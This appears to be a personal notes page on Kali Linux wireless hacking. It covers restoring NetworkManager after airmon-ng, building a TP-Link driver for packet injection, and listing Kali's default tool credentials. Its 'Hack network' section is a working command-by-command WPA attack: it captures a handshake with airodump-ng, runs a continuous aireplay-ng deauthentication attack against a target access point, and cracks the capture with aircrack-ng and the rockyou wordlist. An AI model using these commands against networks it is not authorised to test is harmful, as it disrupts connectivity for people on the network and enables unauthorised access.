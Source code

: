 ## Restoring Networkmanager after airmon-ng check kill

I am writing this from (kali-2019.1)

I usually call on airmon-ng like this:

airmon-ng check 

Found 3 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

PID Name
2558 NetworkManager
2573 wpa_supplicant
2575 dhclient

Then "airmon-ng check kill"
Then use: "airmon-ng start wlan0"
Which creates the virtual interface "wlan0mon"

When you are done tinkering in monitor mode, and would like to use managed mode again.

airmon-ng stop wlan0mon (or whatever the virtual interface name is)
service NetworkManager start
service wpa_supplicant start

And you may need to use "ifconfig wlan0 down/up". I have found it really depends on the card in use.

~Hope this helps you out


## Hack network
! See version of Kali
cat /etc/os-release
uname -a

! See interfaces
ip addr
iwconfig

!kill processes
sudo airmon-ng check kill

!Start monitor mode
sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig  
!or just
sudo airmon-ng start wlan0

!Verify that monitor mode is used
sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
iwconfig

! Get the AP's MAC address and channel
sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

!Stop monitor mode
airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 



## TP-Link adapter for WLAN hacking (Monitor mode & packet injection mode) 
#### New updated method is just using $sudo apt install -y realtek-rtl8188eus-dkms
!Use these commands to get the adapter working on Kali for packet injection and monitoring:
!Commands:
```bash
sudo apt update
sudo apt upgrade
sudo apt install bc
sudo apt-get install build-essential 
sudo apt-get install libelf-dev
``` 

Try either of these commands to see which works:
```bash
sudo apt-get install linux-headers-`uname -r`
sudo apt-get install linux-headers-5.10.0-kali6-amd64
```
For Raspberrypi try:
```bash
sudo apt-get install raspberrypi-kernel-headers

sudo apt install dkms
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
sudo reboot
sudo apt update
cd rtl8188eus
sudo make
sudo make install
sudo modprobe 8188eu
```
!To enable Monitor mode and test packet injection:
!=================================================
```bash
sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                             
sudo aireplay-ng --test wlan0
```
Source from github
------------------
- https://github.com/c4rb0nx1/Tp-Link-TL-WN722N-in-kali-linux

## Kali's Default Credentials
Kali changed to a non-root user policy by default since the release of 2020.1.

This means:

During the installation of amd64 and i386 images, it will prompt you for a standard user account to be created.
Any default operating system credentials used during Live Boot, or pre-created image (like Virtual Machines & ARM) will be:
User: kali
Password: kali

Vagrant image (based on their policy):
Username: vagrant
Password: vagrant

Amazon EC2:
User: kali
Password: <ssh key>

Default Tool Credentials

Some tools shipped with Kali, will use their own default hardcoded credentials (others will generate a new password the first time its used). The following tools have the default values:
BeEF-XSS
Username: beef
Password: beef
Configuration File: /etc/beef-xss/config.yaml

MySQL
User: root
Password: (blank)
Setup Program: mysql_secure_installation

OpenVAS
Username: admin
Password: <Generated during setup>
Setup Program: openvas-setup

Metasploit-Framework
Username: postgres
Password: postgres
Configuration File: /usr/share/metasploit-framework/config/database.yml

PowerShell-Empire/Starkiller
Username: empireadmin
Password: password123

For versions of Kali Linux older than 2020.1, here is our previous credential information and root policy information.